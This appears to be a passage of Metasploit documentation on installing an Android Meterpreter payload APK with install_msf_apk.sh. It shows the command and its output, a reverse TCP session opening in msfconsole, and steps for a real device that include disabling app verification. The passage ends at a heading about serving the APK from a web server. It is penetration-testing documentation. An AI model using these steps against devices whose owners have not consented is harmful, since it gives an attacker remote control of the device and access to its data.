```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk
```

The script will do something like this:

```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk 
   adding: META-INF/ANDROIDD.SF
   adding: META-INF/ANDROIDD.RSA
  signing: classes.dex
  signing: AndroidManifest.xml
  signing: resources.arsc
Failure
1562 KB/s (10715 bytes in 0.006s)
	pkg: /data/local/tmp/android.apk
Success
rm failed for -f, Read-only file system
Starting: Intent { act=android.intent.action.MAIN cmp=com.metasploit.stage/.MainActivity }
```

Back in `msfconsole`, you should receive a session:

```
[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] Starting the payload handler...
[*] Sending stage (62432 bytes) to 192.168.1.199
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.199:49178) at 2016-03-08 13:00:10 -0600

meterpreter > 
```

**Uploading APK to a real Android device using install_msf_apk.sh**

On the Android device, make sure to enable Developer Options. To do this:

1. Go to Settings -> About -> Software Information
2. Tap on the Build Number section a couple of times. It should unlock Developer Options.
3. Go back to the Settings page, you should see Developer Options.

Under Developer Options, make sure to:

* Enable USB debugging
* Disable Verify apps via USB
* Open a terminal, and type: `adb devices`. On your Android device, you should see a prompt
  asking you to allow the computer for debugging, click OK on that.
* Do: `adb devices` again, adb should now have access.

Run the installer script like this from a terminal:

```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk
```

And you should get a session.

**Uploading APK from a Web Server**
